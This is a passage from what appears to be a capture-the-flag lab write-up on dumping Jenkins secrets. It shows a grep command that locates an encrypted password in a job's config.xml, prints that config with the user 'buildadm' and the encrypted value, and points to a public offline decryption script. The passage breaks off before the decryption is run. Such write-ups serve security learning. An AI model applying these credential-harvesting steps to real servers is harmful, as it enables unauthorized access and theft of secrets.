 ```shell
jenkins.fingerprints.GlobalFingerprintConfiguration.xml                     userContent
jenkins.install.InstallUtil.lastExecVersion                                 users
jenkins.install.UpgradeWizard.state                                         war
jenkins.model.ArtifactManagerConfiguration.xml                              workspace
jenkins.model.GlobalBuildDiscarderConfiguration.xml
```

## Dumping Jenkins secrets

This [section](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security#jenkins-secrets) on HackTricks explains how we can dump all the credentials and secrets from Jenkins having access to the server files.

We find one encrypted password:

```shell
└─$ grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
jenkins_configuration/jobs/build/config.xml:              <password>{AQAAABAAAAAQUNBJaKiUQNaRbPI0/VMwB1cmhU/EHt0chpFEMRLZ9v0=}</password>
```

It's for the user `buildadm`, the same username we found on Gitea:

```shell
└─$ cat jenkins_configuration/jobs/build/config.xml
...
    <com.cloudbees.hudson.plugins.folder.properties.FolderCredentialsProvider_-FolderCredentialsProperty plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain plugin="credentials@1337.v60b_d7b_c7b_c9f">
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl plugin="credentials@1337.v60b_d7b_c7b_c9f">
              <id>e4048737-7acd-46fd-86ef-a3db45683d4f</id>
              <description></description>
              <username>buildadm</username>
              <password>{AQAAABAAAAAQUNBJaKiUQNaRbPI0/VMwB1cmhU/EHt0chpFEMRLZ9v0=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.hudson.plugins.folder.properties.FolderCredentialsProvider_-FolderCredentialsProperty>
...
```

Now we can use [this script](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) to decrypt it:
